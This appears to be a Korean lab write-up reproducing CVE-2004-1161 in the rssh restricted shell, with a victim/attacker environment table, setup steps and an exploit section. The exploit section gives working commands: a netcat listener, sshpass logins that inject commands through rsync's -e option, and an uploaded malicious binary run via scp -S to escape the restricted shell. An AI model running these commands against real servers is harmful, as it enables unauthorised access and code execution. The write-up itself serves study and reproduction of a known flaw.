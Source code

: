 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type     | OS             | IP              | Vulnerable App |
| :---     | :---           | :---            | :---           |
| Victim   | CentOS 7       | 192.168.108.174 | [rssh-2.2.2-1.FC2.i386](https://github.com/2jinu/CVE/raw/main/RCE/%5BLinux%5D%20CVE-2004-1161/file/rssh-2.2.2-1.FC2.i386.rpm) |
| Attacker | Kali 2019      | 192.168.108.132 |                |

# **Setting**

필요 라이브러리 설치

```sh
root@srv:~# yum -y install ld-linux.so.2
root@srv:~# rpm -e --nodeps -ivh rssh-2.2.2-1.FC2.i386.rpm
root@srv:~# adduser -d /home/"username" "username"
root@srv:~# passwd "username"
root@srv:~# echo /usr/bin/rssh >> /etc/shells
root@srv:~# usermod -s /usr/bin/rssh "username"
```

rssh 설정파일 수정

```
/etc/rssh.conf에서 allowscp와 allowsftp 주석 해제
```


# **Exploit**

```sh
root@kali:~# apt-get install sshpass
root@kali:~# nc -nvlp 포트번호
root@kali:~# sshpass -p'비밀번호' ssh -oStrictHostKeyChecking=no 사용자 계정@피해 서버 'rsync -e "touch /tmp/exploit --" localhost:/dev/null /tmp'
root@kali:~# sshpass -p'비밀번호' scp -oStrictHostKeyChecking=no 악성코드 명 사용자 계정@피해 서버:/tmp/악성코드 명
root@kali:~# sshpass -p'비밀번호' ssh -oStrictHostKeyChecking=no 사용자 계정@피해 서버 'scp -S /tmp/악성코드 명 localhost:/dev/null /tmp'
```

![](images/2022-05-18-21-34-05.png)



# **etc**

rssh : scp, sftp, cvs, rdist, rsync만 사용할 수 있는 쉘